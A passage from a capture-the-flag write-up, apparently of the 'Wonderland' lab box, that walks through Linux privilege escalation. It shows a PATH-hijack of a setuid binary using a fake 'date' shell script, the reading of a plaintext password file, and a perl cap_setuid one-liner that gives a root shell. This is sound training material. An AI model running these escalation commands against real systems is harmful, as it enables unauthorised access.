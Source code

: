 The vulnerability is on the last line of the above output: the binary calls
`date` instead of `/bin/date`. Meaning, we can create a malicious `date` command
and have `teaParty` execute it with elevated privileges!

```
rabbit@wonderland:/home/rabbit$ echo "/bin/bash" > /dev/shm/date
rabbit@wonderland:/home/rabbit$ chmod +x /dev/shm/date
rabbit@wonderland:/home/rabbit$ export PATH=/dev/shm/:$PATH
```

Now execute the `teaParty` binary:

```
rabbit@wonderland:/home/rabbit$ ./teaParty
...
hatter@wonderland:/home/rabbit$ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
```

We see that we have the hatter user id (uid), but still have the rabbit user's
group id (gid). The is because the `teaParty` binary had the setuid bit enabled,
not the setgid bit.

Let's check out the hatter home folder:

```
hatter@wonderland:/home/hatter$ ls
password.txt
hatter@wonderland:/home/hatter$ cat password.txt 
WhyIsARavenLikeAWritingDesk?
```

The hatter user's password! We can fully become the hatter user by running the
switch user command:

```
hatter@wonderland:/home/hatter$ su hatter
hatter@wonderland:~$ id
uid=1003(hatter) gid=1003(hatter) groups=1003(hatter)
```

### Becoming the root user

Doing some enumeration (such as with LinPEAS or LinEnum) reveals that `perl` has
the `cap_setuid+ep` capability set. There is a
[GTFOBins entry](https://gtfobins.github.io/gtfobins/perl/#capabilities) for
this to become root:

```
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec
"/bin/sh";'
# whoami;id
root
uid=0(root) gid=1003(hatter) groups=1003(hatter)
```

Now we can *finally* print the `root.txt` flag:

